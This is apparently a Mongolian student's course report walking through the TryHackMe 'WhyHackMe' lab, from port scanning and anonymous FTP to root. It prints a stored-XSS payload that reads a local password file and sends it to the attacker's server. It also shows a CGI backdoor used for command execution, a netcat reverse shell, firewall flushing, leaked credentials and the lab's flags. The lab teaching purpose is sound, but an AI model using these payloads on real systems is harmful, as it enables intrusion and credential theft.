<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  Why hackme (MEDIUM)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – WhyHackMe (MEDIUM)



##  УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **WhyHackMe** нэртэй виртуал машины аюулгүй байдлын түвшинг шалгаж, системд үүссэн эмзэг байдал болон буруу тохиргоонуудыг илрүүлэх зорилгоор нэвтрэлтийн туршилт хийж гүйцэтгэлээ. Туршилтын явцад Kali Linux үйлдлийн системийг ашиглан зорилтот машины сүлжээний үйлчилгээнүүдийг судалж, FTP болон HTTP үйлчилгээний мэдээлэл цуглуулах, веб програмын эмзэг байдлыг илрүүлэх, хэрэглэгчийн эрхээр системд нэвтрэх, сүлжээний траффикийг задлан шинжлэх, улмаар эрхийн түвшинг нэмэгдүүлж root хэрэглэгчийн эрх авах зэрэг үе шаттай ажиллагааг хэрэгжүүлсэн.

Энэхүү туршилт нь зөвхөн системд нэвтрэхээс гадна эмзэг байдал хэрхэн үүсдэг, халдагч тухайн эмзэг байдлыг ямар дарааллаар ашиглаж болох, байгууллагын системд ийм төрлийн сул талууд ямар эрсдэл учруулж болохыг ойлгоход чиглэсэн болно.


## FTP ҮЙЛЧИЛГЭЭНИЙ ШИНЖИЛГЭЭ БА МЭДЭЭЛЭЛ ЦУГЛУУЛАЛТ



Нэвтрэлтийн туршилтын эхний үе шатанд зорилтот машины сүлжээний портуудыг бүрэн шалгасан.

```bash
nmap -sV -p- -T4 10.113.167.197
```

Сканы үр дүнд 21 (FTP), 22 (SSH), 80 (HTTP) портууд нээлттэй, 41312 порт нь `filtered` төлөвтэй байгааг илрүүлсэн. Эхний ээлжид FTP үйлчилгээг шалгаж, хэрэглэгчийн нэр болон нууц үг шаардахгүйгээр нэвтрэх боломж байгаа эсэхийг туршсан.

```bash
ftp 10.113.167.197
```



Холболт хийх үед хэрэглэгчийн нэр асуухад `anonymous` гэсэн утгыг оруулж нэвтэрсэн. Нэвтэрсний дараа сервер дээр байрлах `update.txt` файлыг татаж авч агуулгыг нь уншсан.


Уг файлд өмнө нь ашиглаж байсан `mike` хэрэглэгчийн бүртгэл алдагдсан тул устгасан тухай, мөн шинэ хэрэглэгчийн мэдээлэл `127.0.0.1/dir/pass.txt` замд байрлаж байгаа тухай мэдээлэл байсан. Гэхдээ уг замд зөвхөн локал хост буюу серверийн өөрийн орчноос хандах боломжтой гэж тэмдэглэсэн байв. Энэ нь дараагийн шатанд мэдээлэл задруулах үндэс болсон.

##  ВЕБ СЕРВЕРИЙН БҮТЭЦ БОЛОН ЗАМУУДЫГ ИЛРҮҮЛЭХ



FTP-ээс авсан мэдээлэлд үндэслэн зорилтот машины веб серверийг шинжилж, ямар веб хуудас болон директорууд нийтэд нээлттэй байгааг тодорхойлох дараагийн алхмыг хийсэн. Үүний тулд `ffuf` хэрэгслээр веб серверийн нийтэд харагдахгүй директор болон файлын нэрсийг автоматаар шалгасан.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.113.167.197/FUZZ.php
```

Шалгалтын үр дүнд `register`, `login`, `blog`, `config`, `index`, `logout` зэрэг PHP веб програмын хэсгүүдийг илрүүлсэн. Эдгээр хуудсуудыг судалснаар хэрэглэгчийн бүртгэл үүсгэх, системд нэвтрэх, нийтлэл болон сэтгэгдэлтэй ажиллах боломжтой веб програм байгааг тогтоосон.

## STORED XSS ЭМЗЭГ БАЙДЛЫГ ИЛРҮҮЛЭХ



Веб програмын бүртгэл болон блогийн хэсгийг шалгах явцад хэрэглэгчийн оруулсан мэдээллийг сервер талд хангалттай шүүж, аюулгүй боловсруулж байгаа эсэхийг туршсан. Сэтгэгдэл бичих талбар нь `<` тэмдэгтийг `&lt;` болгон хувиргаж хамгаалж байсан боловч хэрэглэгчийн нэр бүртгэх талбарт ийм хамгаалалт байгаагүй.

Ашигласан тестийн утга:

```html
<script>alert('1')</script>
```




Бүртгэл үүсгэсний дараа блогийн хэсэгт сэтгэгдэл бичиж, тухайн хэрэглэгчийн нэр веб хуудсанд хэрхэн харагдаж байгааг шалгасан. Үүний үр дүнд JavaScript код веб хуудас дотор ажиллаж, `alert('1')` гэсэн цонх гарч ирсэн. Энэ нь Stored Cross-Site Scripting буюу Stored XSS эмзэг байдал байгааг баталсан.

## ЛОКАЛ МЭДЭЭЛЭЛД ХАНДАЖ SSH ХЭРЭГЛЭГЧИЙН МЭДЭЭЛЛИЙГ ИЛРҮҮЛЭХ



FTP-ээс авсан `update.txt` файлд дурдсан `127.0.0.1/dir/pass.txt` зам нь серверийн локал орчноос хандах зориулалттай байсан. Иймээс веб програмын Stored XSS эмзэг байдлыг ашиглан тухайн локал замаас текст мэдээлэл унших боломжийг туршсан. Kali Linux дээр дараах JavaScript файлыг (`inject.js`) бэлтгэсэн:

```javascript
fetch('http://127.0.0.1/dir/pass.txt')
  .then(response => response.text())
  .then(data => {
    let attackerServer = 'http://192.168.149.155:8000/catch?data=' + encodeURIComponent(data);
    let img = document.createElement('img');
    img.src = attackerServer;
    document.body.appendChild(img);
  });
```



Kali Linux дээр `python3 -m http.server 8000` ажиллуулж, хэрэглэгчийн нэрээр `<script src=http://192.168.149.155:8000/inject.js></script>` гэсэн утгыг оруулан шинэ бүртгэл үүсгэсэн. Хэрэглэгч сэтгэгдэл бичих үед скрипт ажиллаж, локал файлын агуулгыг Kali Linux руу илгээсэн.



Илгээгдсэн мэдээллээс `jack:WhyIsMyPasswordSoStrongIDK` гэсэн нэвтрэх мэдээллийг гаргаж авсан. Үүний дараа `jack` хэрэглэгчээр SSH-ээр нэвтэрч, хэрэглэгчийн flag-ийг уншсан:

```bash
ssh jack@10.113.167.197
cat user.txt
```

**User flag:** `1ca4eb201787acbfcf9e70fca87b866a`




## 7. IPTABLES ТОХИРГООГ ШИНЖИЛЭХ


SSH холболт амжилттай болсны дараа системийн сүлжээний хамгаалалтын тохиргоог шалгах зорилгоор `sudo -l` болон `iptables` командыг ашигласан.

```bash
sudo -l
sudo iptables -L
```

Шалгалтын үр дүнд `jack` хэрэглэгч `iptables` командыг `sudo`-оор ажиллуулах эрхтэй байсан бөгөөд TCP 41312 портын урсгалд `DROP` дүрэм үйлчилж байгааг илрүүлсэн. Мөн `/opt/urgent.txt` файлыг уншиж, администраторын үлдээсэн тэмдэглэлтэй танилцсан. Уг файлд `/usr/lib/cgi-bin/` директор дотор тусгай файлууд байрлаж байгаа бөгөөд тэдгээрийг устгах боломжгүй байгаа тул `iptables`-ээр түр хаасан тухай болон `/opt/capture.pcap` файлыг шалгах шаардлагатай тухай дурдсан байв.


## APACHE ТОХИРГОО БОЛОН CGI ФАЙЛЫГ СУДЛАХ


Дараагийн шатанд Apache веб серверийн тохиргоог шалгаж, 41312 портын хэрэглээ болон CGI скриптийн байршлыг тодорхойлсон.

```bash
cat /etc/apache2/sites-available/000-default.conf
```

Тохиргооны файлд Apache сервер 41312 портыг сонсож байгаа, TLS шифрлэлт ашиглаж байгаа, мөн CGI скриптүүдийг `/usr/lib/cgi-bin/` директороос ажиллуулах тохиргоотой байгааг илрүүлсэн. Мөн TLS сертификат болон хувийн түлхүүрийн файлууд `/etc/apache2/certs/apache.key` замд байрлаж байв.


## PCAP ФАЙЛЫГ WIRESHARK АШИГЛАН ШИНЖИЛЭХ


`urgent.txt` файлд дурдсан `/opt/capture.pcap` файлыг Kali Linux орчинд хуулж авч, Wireshark ашиглан сүлжээний траффикийг шинжилсэн. Тухайн PCAP файлд HTTPS буюу TLS шифрлэлттэй HTTP хүсэлтүүд байсан тул Apache серверийн хувийн түлхүүрийг (`apache.key`) ашиглан Wireshark-ийн TLS RSA keys тохиргоонд түлхүүрийг бүртгэж, траффикийг задалсан.

```bash
scp jack@10.113.167.197:/opt/capture.pcap .
scp jack@10.113.167.197:/etc/apache2/certs/apache.key .
```

Задалсан урсгал дотроос дараах HTTP хүсэлт илэрсэн:

```http
GET /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id HTTP/1.1
Host: 10.0.2.15:41312
```

Энэ хүсэлт нь Apache серверийн CGI директор дотор байрлах `5UP3r53Cr37.py` Python скриптийг ажиллуулж, `id` командыг гүйцэтгэхээр дамжуулж байгааг харуулсан. Серверийн буцаасан хариунд `uid=33(www-data) gid=1003(h4ck3d)` гэж гарсан нь тухайн CGI скриптээр дамжуулан Linux системийн команд ажиллуулах боломж байгааг нотолсон.

## FIREWALL ДҮРМИЙГ ӨӨРЧИЛЖ CGI BACKDOOR-Т ХАНДАХ


PCAP шинжилгээгээр CGI скриптийн URL болон шаардлагатай параметрүүдийг тодорхойлсны дараа `jack` хэрэглэгчийн эрхээр `iptables` дүрмийг цэвэрлэсэн.

```bash
sudo iptables -F
```

Энэ команд нь `iptables`-ийн одоо байгаа дүрмүүдийг устгасан. Үүний дараа Kali Linux-оос CGI скрипт рүү HTTPS хүсэлт илгээсэн.

```bash
curl -k 'https://10.113.167.197:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id'
```

Хүсэлтийн үр дүнд серверээс `www-data` хэрэглэгчийн мэдээлэл буцаж ирсэн нь CGI скрипт ажиллаж байгааг баталсан.

##  REVERSE SHELL ХОЛБОЛТ ҮҮСГЭХ


CGI скриптээр дамжуулан системийн команд ажиллуулах боломжтой нь батлагдсаны дараа Kali Linux болон зорилтот машины хооронд Reverse Shell холболт үүсгэсэн. Эхлээд Kali Linux дээр Netcat ашиглан 9001 портыг сонсох горимд ажиллуулсан:

```bash
nc -lnvp 9001
```

Дараа нь CGI скриптийн `cmd` параметрээр дамжуулан зорилтот машинаас Kali Linux руу холболт үүсгэсэн. Терминалд дараах холболтын мэдээлэл гарсан:

```text
connect to [192.168.149.155] from (UNKNOWN) [10.113.167.197] 39984
```

`whoami` болон `id` командуудыг ажиллуулахад `www-data` хэрэглэгчийн эрхтэй байгааг тогтоосон.

##  PRIVILEGE ESCALATION БУЮУ ЭРХИЙН ТҮВШИН НЭМЭГДҮҮЛЭХ


Reverse Shell-ээр `www-data` хэрэглэгчийн эрхтэй холбогдсоны дараа системийн хэрэглэгчид ямар эрхтэй команд ажиллуулах боломжтойг шалгах зорилгоор `sudo -l` командыг ашигласан.

```bash
sudo -l
```

Шалгалтын үр дүнд `www-data` хэрэглэгч ямар ч командыг дурын хэрэглэгчийн эрхээр, нууц үг оруулахгүйгээр ажиллуулах боломжтой байгааг илрүүлсэн.

```text
User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

Энэ тохиргоог ашиглан `sudo su` командаар root хэрэглэгчийн shell рүү шилжсэн.

```bash
sudo su
cat /root/root.txt
```

**Root flag:** `4dbe2259ae53846441cc2479b5475c72`

Ингэснээр даалгаврын зорилтот системд энгийн хэрэглэгчийн эрхээс эхлэн веб серверийн хэрэглэгчийн эрхээр дамжин root түвшинд хүрэх ажиллагааг амжилттай гүйцэтгэсэн




